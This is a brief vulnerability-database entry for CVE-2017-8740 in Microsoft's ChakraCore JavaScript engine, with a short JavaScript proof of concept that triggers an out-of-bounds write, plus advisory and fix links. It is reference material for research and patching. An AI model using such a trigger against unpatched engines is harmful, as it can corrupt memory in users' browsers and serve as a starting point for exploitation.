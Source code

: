 # CVE-2017-8740

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let h = function f(a0 = (function () {
    a0;
    a1;
    a2;
    a3;
    a4;
    a5;
    a6;
    a7 = 0x99999;  // oob write

    with ({});
})(), a1, a2, a3, a4, a5, a6, a7) {
    function g() {
        f;
    }
};

for (let i = 0; i < 0x10000; i++) {
    h();
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8740)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1310)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/ee01d90c28b3556cba533d282b8f07c511b36a6e)
